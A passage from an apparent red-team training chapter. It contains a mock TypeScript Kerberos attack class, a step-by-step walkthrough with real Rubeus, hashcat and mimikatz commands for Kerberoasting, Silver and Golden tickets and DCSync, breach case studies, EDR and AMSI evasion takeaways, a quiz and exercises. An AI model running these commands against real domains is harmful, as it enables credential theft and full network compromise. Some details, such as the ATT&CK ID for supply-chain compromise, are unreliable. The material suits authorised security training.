      ticketType: 'TGS',
      domain: config.domain,
      username: config.username,
      service: config.service + '/' + config.targetHost,
      encryption: 'RC4',
      hash: this.forgeTicketHash(config),
      validFrom: new Date(),
      validUntil: new Date(Date.now() + 86400000),
      flags: ['forwardable'],
    };
  }

  // Golden Ticket — requires KRBTGT hash
  forgeGoldenTicket(config: {
    domain: string;
    username: string;
    krbtgtHash: string;    // NTLM hash of KRBTGT account
    sid: string;           // Domain SID
    extraSids?: string[];  // Extra SIDs for Enterprise Admin, etc.
  }): KerberosTicket {
    console.log('[Golden] Forging TGT for ' + config.username + '@' + config.domain);
    return {
      ticketType: 'TGT',
      domain: config.domain,
      username: config.username,
      encryption: 'RC4',
      hash: this.forgeTicketHash(config),
      validFrom: new Date(),
      validUntil: new Date(Date.now() + 365 * 86400000), // 1 year
      flags: ['forwardable', 'renewable', 'initial'],
    };
  }

  // DCSync — request domain replication
  async DCsync(targetDomain: string, targetUser: string = ''): Promise<string> {
    console.log('[DCSync] Requesting replication from ' + targetDomain);
    // In real: mimikatz "lsadump::dcsync /domain:domain /user:krbtgt"
    return 'NTDS.dit extracted — ' + (targetUser || 'all') + ' hashes retrieved';
  }

  // Skeleton Key — patch LSASS on DC
  skeletonKey(dcHostname: string, password: string): string {
    console.log('[Skeleton Key] Patching LSASS on ' + dcHostname);
    // In real: mimikatz "privilege::debug" "misc::skeleton"
    return 'Skeleton key installed — any account accepts password: ' + password;
  }

  private forgeTicketHash(config: any): string {
    return this.randomHex(64);
  }

  private randomHex(len: number): string {
    return Array.from({ length: len }, () => '0123456789abcdef'[Math.floor(Math.random() * 16)]).join('');
  }
}
```

### 9.3 Kerberos Attack Walkthrough


**Kerberoasting (T1558.003) Full Steps:**

1. Enumerate SPNs: `setspn -T domain.local -Q */*` or BloodHound
2. Request TGS: `Rubeus.exe kerberoast /outfile:hashes.txt`
3. Crack offline: `hashcat -m 13100 hashes.txt rockyou.txt --force -O`
4. Use credential: `Rubeus.exe asktgt /user:sql_service /rc4:CRACKED_HASH /ptt`

**Silver Ticket (T1558.002) Full Steps:**

1. Obtain service account hash (via Kerberoasting or LSASS dump)
2. Get domain SID: `whoami /user` or PowerView
3. Forge ticket: `mimikatz "kerberos::golden /domain:domain.local /sid:S-1-5-21-... /target:fileserver.domain.local /service:cifs /rc4:SERVICE_HASH /user:admin /ptt"`
4. Access: `dir \\fileserver\share`

**Golden Ticket (T1558.001) Full Steps:**

1. Obtain KRBTGT hash (via DCSync or LSASS dump from DC)
2. Forge TGT: `mimikatz "kerberos::golden /domain:domain.local /sid:S-1-5-21-... /krbtgt:KRBTGT_HASH /user:Administrator /ptt"`
3. Full domain admin: `mimikatz "lsadump::dcsync /domain:domain.local /all"`

---

## 10. Real Operation Case Studies

### 10.1 SolarWinds (APT29 / Nobelium) — 2020


The SolarWinds supply chain attack is one of the most sophisticated red-team-evadable operations ever conducted.

**Attack Summary:**

| Attribute | Detail |
|-----------|--------|
| Attribution | APT29 (Cozy Bear, Nobelium) — Russian SVR |
| Initial Access | Supply chain: compromised SolarWinds Orion build system |
| Duration | ~9 months undetected (March 2020 — December 2020) |
| Victims | 18,000+ organizations, ~100 fully compromised |
| Key Targets | US federal agencies (Treasury, Commerce, DHS, DoD), tech companies (Microsoft, FireEye), security firms |
| C2 Used | SUNBURST backdoor, TEARDROP, RAINDROP, BEACON |

**Technical Breakdown:**

**SUNBURST Backdoor:**
- Injected into SolarWinds.Orion.Core.BusinessLayer.dll
- Digitally signed with SolarWinds certificate
- Obfuscated C2 using HTTP with fake blog domains (avsvmcloud[.]com)
- Beacon interval: 12-24 hours with random jitter
- Domain generation algorithm (DGA) for C2 fallback
- Code obfuscation: dead code insertion, string encryption, control flow flattening

**Evasion Techniques Used:**
- Lived off the land (used SolarWinds legitimate paths)
- Delayed execution (waited 2 weeks post-infection)
- Beacon mimicking legitimate SolarWinds traffic
- Stole code-signing certificates for signed payloads
- Used legitimate cloud infrastructure (AWS, Azure) for C2

**Detection Bypass:**
- Disabled security products via GPO modification
- Cleared event logs post-exploitation
- Timestomped files to match legitimate timestamps
- Used native Windows tools (PowerShell, WMI) exclusively

**MITRE ATT&CK Mapping:**

| Tactic | Technique | ID |
|--------|-----------|----|
| Initial Access | Supply Chain Compromise | T1475 |
| Execution | User Execution: Malicious File | T1204.002 |
| Persistence | Create or Modify System Process: Windows Service | T1543.003 |
| Defense Evasion | Signed Binary Proxy Execution | T1216 |
| Defense Evasion | Obfuscated Files or Information | T1027 |
| Credential Access | OS Credential Dumping | T1003 |
| Lateral Movement | Remote Services: SMB/WMI | T1021 |
| C2 | Web Protocols | T1071.001 |
| Exfiltration | Exfiltration Over C2 Channel | T1041 |

### 10.2 Colonial Pipeline (DarkSide) — 2021


The DarkSide ransomware attack on Colonial Pipeline demonstrated the real-world impact of initial access via phishing and fast lateral movement.

**Attack Summary:**

| Attribute | Detail |
|-----------|--------|
| Attribution | DarkSide (Russian-speaking ransomware group, since disbanded) |
| Initial Access | VPN credentials obtained via phishing/reused password |
| Duration | 2 hours from initial access to 100GB exfiltration |
| Ransom Paid | ~$4.4 million (75 BTC) |
| Impact | 5,500-mile pipeline shut down, aviation fuel shortages, US emergency declaration |

**Attack Timeline:**

```
T+0:00 — Phishing email with reused VPN password
T+0:15 — DarkSide accesses Colonial Pipeline VPN
T+0:30 — C2 beacon established via HTTPS
T+1:00 — LSASS dump -> domain admin credentials
T+1:30 — PsExec to all domain-joined servers
T+2:00 — 100GB data exfiltrated via C2
T+2:30 — Ransomware deployed via GPO push
```

**Key Red Team Lessons:**

| Lesson | Application |
|--------|-------------|
| Single phishing email can compromise a pipeline | Phishing ops are highest ROI initial access |
| Stolen passwords are still effective | Password reuse is your biggest enabler |
| Lateral movement via PsExec is fast | Prepare for speed: 2 hours to domain dominance |
| Ransomware via GPO is highly effective | GPO as a deployment mechanism scales instantly |
| Operational downtime drives ransom payment | Business impact matters more than technical sophistication |

---

## Practical Takeaways

| Takeaway | Application |
|----------|-------------|
| Use Malleable C2 profiles to evade network detection | Customize HTTP headers, URIs, jitter, and sleep mask to mimic legitimate traffic (e.g., OneDrive, Slack) and bypass NTA/ZTNA |
| Deploy a split C2 infrastructure | Separate team server, redirectors (Nginx/Apache mod_rewrite), and CDN front-end to hide the true C2 origin |
| Automate phishing with personalized payloads | Use GoPhish templates with tracking pixels and per-target credentials; measure open/click/submit rates to refine TTPs |
| Chain Kerberos attacks for domain dominance | Start with SPN enumeration → Kerberoast → Silver Ticket → DCSync → Golden Ticket for full domain compromise |
| Combine AMSI bypass + direct syscalls for EDR evasion | Patch `amsi.dll!AmsiScanBuffer`, patch ETW via `ntdll!EtwEventWrite`, then use Hell's Gate to resolve unhooked syscalls |
| Map every technique to MITRE ATT&CK | Each engagement action should log the ATT&CK technique ID (e.g., T1059.001, T1003.001) for detection gap analysis |

## Summary

This chapter covered advanced red team operations and C2 frameworks across the full adversary emulation lifecycle. Key takeaways:

1. **Red Team Methodology:** The kill chain (Planning through Reporting) provides a structured approach to adversary simulation. Every phase has specific techniques, tools, and success criteria.

2. **C2 Frameworks:**
   - **Cobalt Strike** remains the gold standard with Malleable C2 profiles, beaconing, BOFs, and extensive ecosystem support.
   - **Sliver** offers a free, open-source Go-based alternative with mTLS, armory for community tools, and operator RBAC.
   - **Covenant** innovates with .NET-based dynamic C# compilation for task execution at runtime.

3. **Phishing Operations:** SMTP relay infrastructure, SPF/DKIM/DMARC evasion, and tracking-pixel analytics form the foundation of the most common initial access vector. GoPhish provides a complete framework with web UI and REST API.

4. **Adversary Emulation:** Mapping to MITRE ATT&CK enables structured testing of detections. APT29's SolarWinds operation and APT41's multi-industry campaigns demonstrate real-world TTPs.

5. **Evasion Techniques:** AMSI bypass (memory patching, reflection), ETW patching, direct syscalls (Hell's Gate/Halo's Gate), and sandbox detection are critical for operating against modern defenses.

6. **Lateral Movement:** WMI, PsExec, WinRM, DCOM, and PtH/OPtH provide multiple pathways for expanding access within a network. Each method has different detection profiles.

7. **Kerberos Attacks:** Kerberoasting, AS-REP roasting, Silver/Golden tickets, DCSync, and Skeleton Key represent a progression from low-privilege enumeration to full domain compromise.

8. **Case Studies:** SolarWinds (APT29) and Colonial Pipeline (DarkSide) demonstrate real-world application of these techniques at scale.

---

## Chapter Quiz (10 Questions)

| # | Question | A | B | C | D | Answer |
|---|----------|---|---|---|---|--------|
| 1 | Which of the following best describes a Malleable C2 profile? | A YARA rule for detecting Cobalt Strike beacons | A configuration file defining HTTP headers, URIs, and timing for beacon traffic | A PowerShell script for deploying Cobalt Strike | A network capture filter for C2 traffic analysis | **B** |
| 2 | What is the primary difference between Hell's Gate and Halo's Gate? | Hell's Gate is for AMSI bypass, Halo's Gate is for ETW bypass | Hell's Gate extracts syscall numbers from clean ntdll; Halo's Gate scans backward past EDR hooks | Hell's Gate works on x86 only, Halo's Gate on x64 | There is no difference — they are the same technique | **B** |
| 3 | In Cobalt Strike, what does the `stage.sleep_mask` directive do? | Prevents the beacon from sleeping | Encrypts the beacon in memory during sleep cycles | Masks the beacon's network traffic as HTTP | Hides the beacon process from task manager | **B** |
| 4 | Which Windows Event ID indicates a new service installation (commonly used for persistence)? | 4624 | 4688 | 7045 | 4769 | **C** |
| 5 | What is the primary detection indicator for Kerberoasting? | High volume of Event ID 4624 (logon) | High volume of Event ID 4769 (TGS requests) using RC4 encryption | High volume of Event ID 4688 (process creation) | High volume of Event ID 5140 (SMB access) | **B** |
| 6 | In the context of phishing, what is the purpose of a tracking pixel? | To encrypt the email payload | To detect when a recipient opens the email by loading a hidden 1x1 image | To replace the sender's email address with a spoofed address | To bypass SPF/DKIM/DMARC checks | **B** |
| 7 | Which privilege is required to perform a DCSync attack? | Any domain user | Local Administrator on a workstation | Domain Admin or Replication rights | Enterprise Admin | **C** |
| 8 | What is the primary use case for Sliver's armory? | Storing encryption keys for implants | Hosting community-contributed tools (BOFs, assemblies, aliases) | Managing operator credentials | Logging C2 traffic for analysis | **B** |
| 9 | Which lateral movement technique relies on creating a remote service via SMB? | WinRM | WMI | PsExec | DCOM | **C** |
| 10 | What makes the SolarWinds attack particularly notable for red teams? | It was the fastest ransomware attack in history | It demonstrated supply chain compromise with signed payloads and extended stealth operations | It used zero-day exploits exclusively | It was performed by hacktivists rather than nation-state actors | **B** |

---

## Exercises

<details>
<summary>Solution</summary>

### Exercise 1: C2 Beacon Profile Design

Design a Malleable C2 profile for imitating Microsoft OneDrive traffic. Define:
- HTTP GET and POST URIs
- Cookie-based metadata embedding
- Header ordering matching OneDrive
- Jitter and sleep values
- Stage settings (sleep_mask, obfuscation)
- Custom string replacements to avoid signature matching

Write your profile configuration and explain why each setting improves stealth.

### Exercise 2: Sliver C2 Deployment

Create a Sliver deployment plan for a 3-person red team operation against a Windows domain:
1. List the operators you would create and their permissions
2. Define which listeners you would deploy (protocol, port, domain)
3. Generate beacon configurations for Windows and Linux targets
4. Install three armory packages and describe their use cases
5. Write the Sliver commands for deploying an implant to a remote host

### Exercise 3: Phishing Campaign Simulation

Using the TypeScript PhishingCampaignManager class:
1. Create a targeted phishing campaign against the "Engineering" department (10 recipients)
2. The email should claim to be a "Code Review Request" from a peer
3. Include personalized elements (first name, project name)
4. Configure SMTP to bypass SPF/DKIM (specify which strategy you use)
5. Simulate tracking events and calculate: open rate, click rate, and submission rate
6. Explain how tracking pixels and redirect URLs capture credential submissions

### Exercise 4: Kerberos Attack Chain

Execute the full Kerberos attack chain against a simulated domain:
1. Enumerate SPNs using TypeScript KerberoastingEngine
2. Request TGS tickets for crackable service accounts
3. Forge a Silver Ticket to access the MSSQL service
4. Obtain KRBTGT hash via DCSync
5. Forge a Golden Ticket for full domain compromise
6. Explain each detection opportunity and mitigation

### Exercise 5: Lateral Movement Playbook

Using the LateralMovementExecutor class:
1. Enumerate 5 reachable hosts in a domain (simulated)
2. For each host, select the optimal lateral movement method based on open ports
3. Execute a command to deploy a C2 beacon on each host
4. Implement credential reuse: if one method succeeds, try the same hash against other hosts
5. Analyze detection risk for each method and propose evasion measures

### Exercise 6: Evasion Technique Implementation

Using the AmsiBypassGenerator and HellGateResolver classes:
1. Generate an AMSI bypass variant with base64 obfuscation
2. Generate an ETW patch string
3. Use Hell's Gate to resolve NtAllocateVirtualMemory syscall number
4. Use Halo's Gate to find a clean syscall for NtOpenProcess (assuming it's hooked)
5. Write the resulting direct syscall stub as a byte array
6. Test sandbox detection: configure the detector with 5 suspicious indicators and verify it triggers evasion

### Exercise 7: Red Team Engagement Report

Write a mock red team post-engagement report for a compromised domain, covering:
1. Executive summary (non-technical)
2. Technical findings with MITRE ATT&CK mappings
3. Timeline of engagement events
4. Detection gaps identified
5. Remediation recommendations prioritized by risk
6. Attachments: extracted hashes, tool outputs, network captures

### Exercise 8: APT Emulation Plan

Create an emulation plan for APT41 targeting a fictional video game company:
1. Map all TTPs to MITRE ATT&CK IDs
2. Write the Atomic Red Team commands for each step
3. Define expected detection signatures (log sources, event IDs)
4. Create cleanup procedures after each atomic test
5. Measure success criteria: was the action detected by blue team?
6. Document lessons learned for improving detection coverage

</details>

---

## References

- Cobalt Strike Documentation: https://www.cobaltstrike.com/help-malleable-c2
- Sliver C2 Framework: https://github.com/BishopFox/sliver
- Covenant C2 Framework: https://github.com/cobbr/Covenant
- MITRE ATT&CK: https://attack.mitre.org
- Atomic Red Team: https://github.com/redcanaryco/atomic-red-team
- GoPhish: https://getgophish.com
- SolarWinds Investigation (Mandiant): https://www.mandiant.com/resources/sunburst-backdoor
- Colonial Pipeline Incident (CISA): https://www.cisa.gov/colonial-pipeline-attack
- Rubeus (GhostPack): https://github.com/GhostPack/Rubeus
- BloodHound: https://github.com/BloodHoundAD/BloodHound
- Hell's Gate: https://github.com/am0nsec/HellsGate
- Halo's Gate: https://blog.sektor7.net/halos-gate
- Donut (shellcode generator): https://github.com/TheWover/donut
- sRDI: https://github.com/monoxgas/sRDI
